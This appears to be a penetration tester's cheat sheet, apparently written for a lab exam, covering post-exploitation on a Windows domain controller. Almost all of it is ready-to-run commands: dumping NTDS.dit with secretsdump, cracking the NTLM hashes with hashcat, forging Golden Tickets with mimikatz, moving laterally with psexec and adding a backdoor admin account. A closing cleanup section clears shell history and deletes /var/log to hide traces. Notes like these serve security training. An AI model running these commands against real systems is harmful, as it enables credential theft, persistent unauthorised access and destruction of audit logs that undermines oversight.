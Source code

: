 
- Capture #Flags:
    - `cat /root/proof.txt`
    - `cat /home/user/local.txt`
- On Domain Controller as a Domain Admin?
	- Dump the #NTDS.dit and crack passwords
		- `secretsdump.py DOMAIN.local/user:'Password1'@<DC-IP> -just-dc-ntlm` 
		- `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt --show`
	- Enumerate shares for sensitive information
	- Establish Persistence (Golden Ticket, Silver Ticket, create Domain Admin, etc.)
		- Golden/Silver Ticket:
			- `mimikatz.exe`
			- `privilege::debug`​
			- `lsadump::lsa /inject /name:krbtgt`​
				- Dumps the information for the #krbtgt account
				- need krbtgt ntlm hash and domain SID  
			- Make sure to Runas Admin:
				- `Start-Process -FilePath "C:\Users\administrator\Downloads\mimikatz.exe" -Verb RunAs`
			- `kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt`
				- /User can be a fake user, /domain must be real  ​
				- Look for `Golden ticket for 'Administrator @ marvel.local' successfully submitted for current session`
			- `misc::cmd`​
				- With a Golden Ticket, we can now access other machines from the cmd line
					- `dir \\10.0.0.25\C$`
					- `dir \\THEPUNISHER\C$`
					- ​`Exec64.exe \\10.0.0.25 cmd.exe`​
					- `psexec.exe \\THEPUNISHER cmd.exe`
		- Add Domain Admin:
			- `net user hacker password123 /add` 
			- Then from Server Manager, add Domain User created to Domain Admin group

- #Cleanup:
    - `history -c`
    - `rm -rf /tmp/*`
    - Remove logs: `/var/log/*`

```c
==ENUMERATE AGAIN AFTER EXPLOITING!==
```